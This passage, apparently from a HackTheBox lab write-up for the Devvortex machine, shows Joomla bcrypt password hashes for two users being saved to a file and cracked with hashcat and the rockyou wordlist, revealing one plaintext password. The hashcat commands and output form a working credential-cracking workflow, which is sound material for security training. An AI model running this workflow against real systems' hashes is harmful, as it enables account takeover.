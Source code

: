 

I'll save those to a file:



    oxdf@hacky$ cat joomla.hashes 
    lewis:$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
    logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12



### Crack Hashes

I'll pass this file to `hashcat` along with the `rockyou.txt` wordlist.
It starts in auto-detect mode, but fails as there are multiple possible
matches:



    oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...

    The following 4 hash-modes match the structure of your input hash:

          # | Name                                                       | Category
      ======+============================================================+======================================
       3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
      25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
      25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
      28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

    Please specify the hash-mode with -m [hash-mode].
    ...[snip]...



Unless I know otherwise, it's always worth trying basic bcrypt (3200). I
can also start in the background registering an account and then
fetching the password to try to crack it with different modes to see
which it is. But I won't need that here as 3200 works rather quickly for
logan's hash:



    oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user -m 3200
    hashcat (v6.2.6) starting
    ...[snip]...
    $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho



I'll kill this and try the DB password for lewis, and it works:

